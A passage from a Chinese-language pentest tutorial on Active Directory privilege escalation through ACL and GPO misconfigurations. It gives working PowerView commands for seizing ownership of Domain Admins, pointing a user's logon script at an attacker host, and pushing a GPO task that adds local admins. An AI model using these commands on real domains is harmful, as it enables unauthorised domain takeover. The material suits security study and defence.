 如果用户spotless对`Domain Admins`组有权限`ObjectType:All`, 那么可以将Domain Admins对象的所有者更改为我们的用户spotless

```
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
//您也可以使用SID的名称
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity spotless
```

然后再把用户spotless添加到Domain Admins组,从而拥有域管权限

+ ObjectType:Script-Path

```
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```
ObjectType上的WriteProperty（在本例中为Script Path）允许攻击者`spotless`覆盖委托用户`delegate`的登录脚本路径，这意味着下次用户委托登录时，他们的系统将执行我们的恶意脚本：
```
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

## GPO

+ 查看用户`spotless`对所有GPO的权限

```
Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

+ 应用了给定策略的计算机

我们现在可以解析GPO错误配置策略应用于的计算机名称：

```
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}
```

+ 应用于给定计算机的策略
```
Get-DomainGPO -ComputerIdentity ws01 -Properties Name, DisplayName
```
+ 应用了给定策略的 OU
```
Get-DomainOU -GPLink "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" -Properties DistinguishedN
```

### **滥用 GPO -**  [New- ](https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1)

滥用这种错误配置并执行代码的方法之一是通过 GPO 创建立即计划任务，如下所示：
```
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```
![img](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M0xK_5m5MJbbcNHZ2Jc%2F-M0xO_cwVE8KZZgUViP7%2Fa19.png?alt=media&token=e84fda37-9f04-41a3-8e37-ae1a54f5d308)
